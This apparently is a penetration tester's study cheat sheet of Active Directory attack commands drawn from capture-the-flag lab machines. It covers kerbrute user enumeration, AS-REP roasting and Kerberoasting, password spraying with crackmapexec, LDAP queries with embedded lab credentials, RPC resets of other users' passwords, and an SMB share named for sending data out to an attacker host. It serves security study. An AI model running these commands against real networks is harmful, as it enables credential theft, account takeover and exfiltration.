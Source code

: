 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerbrute
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```



- [ ] GetNPUsers

ASREPRoasting
>[!bug] Don't do this mistake in the exam
- We have to provide the Domain name and not the host name for the attack

```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```


```
GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```




- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```

```
smbserver.py -smb2support -user testing -password testing SendYourData $(pwd)
```

```
net use x: \\10.10.16.8\SendYourData /user:testing testing
```



## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"
```

```
ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"
```

```
ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +
```


>[! bug] With credentials

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'
```

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 
```

```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```


# Rpc Client

We might have to use RPC to change the password of audit2020 let's google and see what could we find.
```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
rpcclient $> setuserinfo2
```

```
rpcclient -U "support" 10.10.10.192
#00^BlackKnight
```

```
setuserinfo2 audit2020 23 '#00^BlackKnight'
```


